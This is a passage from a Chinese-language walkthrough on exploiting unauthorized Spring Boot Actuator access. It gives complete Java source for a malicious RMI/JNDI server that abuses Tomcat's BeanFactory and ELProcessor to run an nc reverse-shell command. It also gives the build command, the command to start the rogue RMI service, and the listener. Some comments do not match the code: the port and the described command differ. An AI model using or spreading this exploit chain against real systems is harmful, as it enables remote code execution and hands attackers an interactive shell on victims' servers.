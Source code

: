 代码如下:

```
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 8090");//RMI服务监听地址为8090
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.233.242 1234 >/tmp/f']).start()\")"));
         
        
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}
```



将该代码进行maven打包

```
mvn install
```

![image-20210830204556955](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830204556955.png)



然后指定访问ip地址开启RMI服务

```
java -Djava.rmi.server.hostname=192.168.233.242 -jar RMIServer-0.1.0.jar
```

![image-20210830204855751](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830204855751.png)



使用nc监听端口

```
nc -lvvp 1234
```

